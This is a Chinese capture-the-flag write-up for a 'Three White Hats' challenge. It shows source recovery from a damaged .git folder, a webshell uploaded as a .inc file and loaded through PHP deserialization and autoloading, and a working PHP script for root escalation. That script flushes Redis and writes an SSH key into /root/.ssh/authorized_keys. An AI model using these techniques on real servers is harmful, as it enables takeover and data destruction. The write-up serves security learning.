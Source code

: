 # 《三个白帽》某题的writeup

今天这个题还是很有意思的，大家玩的也很开心，现在已经结束了。   
明天还有一波邀请码，大家注意期待~   

### 0x01 找到源码 
目标 http://24caf446e2bb0e659.jie.sangebaimao.com/   
首先扫描发现其包含.git目录，但访问/.git/index发现没有这个文件，可能是被破坏了。   
用lijiejie的工具无法还原，但用某些工具还是可以办到的，详见我之前的文章：https://www.leavesongs.com/PENETRATION/XDCTF-2015-WEB2-WRITEUP.html   
就不再赘述，用某工具直接还原源码：   
![](writeup/media/14473473015457/14473474164234.jpg)￼ 

### 0x02 getshell 
首先通读源码，发现有几个特点： 

> 1.  可以上传任意文件，后缀有黑名单检查，文件名是随机字符串md5值 
> 2.  数据存储于cookie中，通过php反序列化函数还原并显示 

其实考察点比较有意思。 
看到common.inc.php里，包含spl_autoload_  register函数，这个函数是自动注册类用的，在当今特别是新型的框架（laravel、composer）中常用。   
这个函数有个特点，如果不指定处理用的函数，就会自动包含“类名.php”或“类名.inc”的文件，并加载其中的“类名”类。   
这就比较有意思了，我们之前的黑名单是不包括“.inc”文件的，所以我们可以按照下面方法进行getshell：   

1.上传webshell，后缀为.inc，被重命名为xxxx.inc   
![](writeup/media/14473473015457/14473473771270.jpg)￼

2.序列化一个类名为xxxx的类对象   
![](writeup/media/14473473015457/14473474301488.jpg)￼

3.将序列化以后的字符串作为cookie，发送到服务器上   
![](writeup/media/14473473015457/14473474412419.jpg)￼

4.服务器反序列化这个字符串后，将会自动加载xxxx类，由于之前spl_autoload_register函数注册的方法，会自动加载xxxx.inc，从而造成文件包含漏洞，getshell成功   
![](writeup/media/14473473015457/14473474514500.jpg)￼

在网站根目录的flag-1.php中获得第一个flag。   


### 0x03 利用本地redis提权 
拿到webshell以后，查看一下服务器的一些敏感信息。   
比如在phpinfo里看到了，session的处理方式用的redis，并且save_path里暴露了redis的端口和密码：   
![](writeup/media/14473473015457/14473474647264.jpg)￼


于是可以利用这段时间比较火的redis写公钥文件进行提权。   
直接编写一个redis.php，用php来连接redis，执行redis写公钥的POC：   

```php
<?php 
$redis = new Redis(); 
$redis->connect('127.0.0.1', 21821); 
$redis->auth("Tat141uIyX8NKU"); 
$redis->flushall(); 
$redis->config("SET", "dir", "/root/.ssh/"); 
$redis->config("SET", "dbfilename", "authorized_keys"); 
$redis->set("0", "\n\n\nssh-rsa key_pub\n\n\n"); 
$redis->save();
```

连接其ssh端口，直接获取root权限。   
读取/root/flag-2.txt获得第二个flag。   

